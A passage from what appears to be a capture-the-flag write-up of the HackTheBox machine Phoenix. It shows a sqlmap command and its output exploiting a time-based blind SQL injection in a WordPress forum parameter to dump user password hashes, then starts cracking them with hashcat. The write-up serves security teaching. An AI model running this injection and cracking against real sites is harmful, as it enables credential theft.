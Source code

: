This runs for about eight minutes, but does produce the two hashes:

    
    
    oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T --level 5 -D wordpress -T wp_users -C id,user_pass --where "ID=1 or ID=5" --dump
    ...[snip]...
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: #1* (URI)
        Type: time-based blind
        Title: MySQL >= 5.0.12 time-based blind - Parameter replace
        Payload: https://phoenix.htb:443/forum/?subscribe_topic=(CASE WHEN (8939=8939) THEN SLEEP(5) ELSE 8939 END)
    ---
    [22:04:57] [INFO] testing MySQL
    [22:04:57] [INFO] confirming MySQL
    [22:04:57] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 8.0.0
    [22:04:57] [INFO] fetching entries of column(s) '`id`, user_pass' for table 'wp_users' in database 'wordpress'
    [22:04:57] [INFO] [INFO] fetching number of column(s) '`id`, user_pass' entries for table 'wp_users' in database 'wordpress'
    ...[snip]...
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] 
    do you want to crack them via a dictionary-based attack? [Y/n/q] n
    Database: wordpress
    Table: wp_users
    Database: wordpress
    Table: wp_users
    [2 entries]
    +------+------------------------------------+
    | id   | user_pass                          |
    +------+------------------------------------+
    | 1    | $P$BA5zlC0IhOiJKMTK.nWBgUB4Lxh/gc. |
    | 5    | $P$BV5kUPHrZfVDDWSkvbt/Fw3Oeozb.G. |
    +------+------------------------------------+
    
    [22:13:19] [INFO] table 'wordpress.wp_users' dumped to CSV file '/home/oxdf/.sqlmap/output/phoenix.htb/dump/wordpress/wp_users.csv'
    

### Crack Hashes

The newer versions of `hashcat` will do mode detection for me which identifies
these are mode 400, phppass, WordPress (MD5), Joomla (MD5):

    
    
    $ /opt/hashcat-6.2.5/hashcat.bin hashes.txt /usr/share/wordlists/rockyou.txt 
    hashcat (v6.2.5) starting in autodetect mode
    ...[snip]...
    Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
    The following mode was auto-detected as the only one matching your input hash:
    